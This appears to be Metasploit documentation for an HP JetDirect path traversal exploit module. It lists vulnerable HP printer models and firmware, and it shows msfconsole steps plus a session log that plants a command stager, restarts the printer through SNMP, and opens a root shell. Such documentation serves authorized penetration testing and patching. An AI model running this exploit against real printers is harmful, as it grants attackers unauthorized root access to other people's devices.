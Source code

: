 ## Vulnerable Devices

  Impacted printers have a firmware version below 1708D.

  | Product Name                             | Model                          |
  | ---------------------------------------- | -------------------------------|
  | HP PageWide Managed MFP P57750dw         | J9V82A, J9V82B, J9V82C, J9V82D |
  | HP PageWide Managed P55250dw             | J6U55A, J6U55B, J6U55C, J6U55D |
  | HP PageWide Pro MFP 577z                 | K9Z76A, K9Z76D                 |
  | HP PageWide Pro 552dw                    | D3Q17A, D3Q17C, D3Q17D         |
  | HP PageWide Pro MFP 577dw                | D3Q21A, D3Q21C, D3Q21D         |
  | HP PageWide Pro MFP 477dw                | D3Q20A, D3Q20B, D3Q20C, D3Q20D |
  | HP PageWide Pro  452dw                   | D3Q16A, D3Q16B, D3Q16C, D3Q16D |
  | HP PageWide Pro MFP 477dn                | D3Q19A, D3Q19D                 |
  | HP PageWide Pro  452dn                   | D3Q15A, D3Q15B, D3Q15D         |
  | HP PageWide MFP 377dw                    | J9V80A, J9V80B                 |
  | HP PageWide 352dw                        | J6U57B                         |
  | HP OfficeJet Pro 8730 All-in-One Printer | D9L20A                         |
  | HP OfficeJet Pro 8740 All-in-One Printer | D9L21A                         |
  | HP OfficeJet Pro 8210 Printer            | D9L63A, D9L64A                 |
  | HP OfficeJet Pro 8216 Printer            | T0G70A                         |
  | HP OfficeJet Pro 8218 Printer            | J3P68A                         |

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/misc/hp_jetdirect_path_traversal`
  3. Do: `set rhost <hostname>`
  4. Do: `exploit`
  5. You should get a shell.

## Scenarios

### HP OfficeJet Pro 8210 Printer

  The following demonstrates the exploit against a vulnerable printer model.
  When the user is finished with the command shell session, they press control-c and
  respond yes to abort the session. This action sends the `CommandShellCleanupCommand`
  of the `cmd/unix/bind_busybox_telnetd` payload to the server in order to kill
  telnetd that was used to get the command shell.

  ```
  msf > use exploit/linux/misc/hp_jetdirect_path_traversal
  msf exploit(linux/misc/hp_jetdirect_path_traversal) > set rhost 192.168.1.107
  rhost => 192.168.1.107
  msf exploit(linux/misc/hp_jetdirect_path_traversal) > exploit

  [*] 192.168.1.107:9100 - Exploiting...
  [*] Started bind handler
  [*] 192.168.1.107:9100 - Connecting to port 9100...
  [*] 192.168.1.107:9100 - Attempting to write command stager...
  [+] 192.168.1.107:9100 - Successfully wrote command stager to 0:/../../rw/var/etc/profile.d/dLDZtDsh.sh
  [*] 192.168.1.107:161 - Connecting to SNMP port 161...
  [*] 192.168.1.107:161 - Initial value of prtGeneralReset OID 1.3.6.1.2.1.43.5.1.1.3.1 => 3
  [*] 192.168.1.107:161 - Attempting to restart printer via SNMP...
  [*] 192.168.1.107:161 - Set prtGeneralReset OID 1.3.6.1.2.1.43.5.1.1.3.1 => 4
  [*] 192.168.1.107:161 - Current value of prtGeneralReset OID 1.3.6.1.2.1.43.5.1.1.3.1 => 3
  [*] 192.168.1.107:161 - Printer restarting...
  [*] Command shell session 1 opened (192.168.1.101:38141 -> 192.168.1.107:4444) at 2017-12-31 21:09:40 -0600


  [root@HPC2A3FB ]# id
  id
  uid=0(root) gid=0(root)
  [root@HPC2A3FB ]# uname -a
  uname -a
  Linux HPC2A3FB 3.14.32 #001.1614A Wed Mar 30 16:58:30 PDT 2016 armv7l GNU/Linux
  [root@HPC2A3FB ]# ^C
  Abort session 1? [y/N]  y

  [*] 192.168.1.107 - Command shell session 1 closed.  Reason: User exit
  msf exploit(linux/misc/hp_jetdirect_path_traversal) > 
  ```
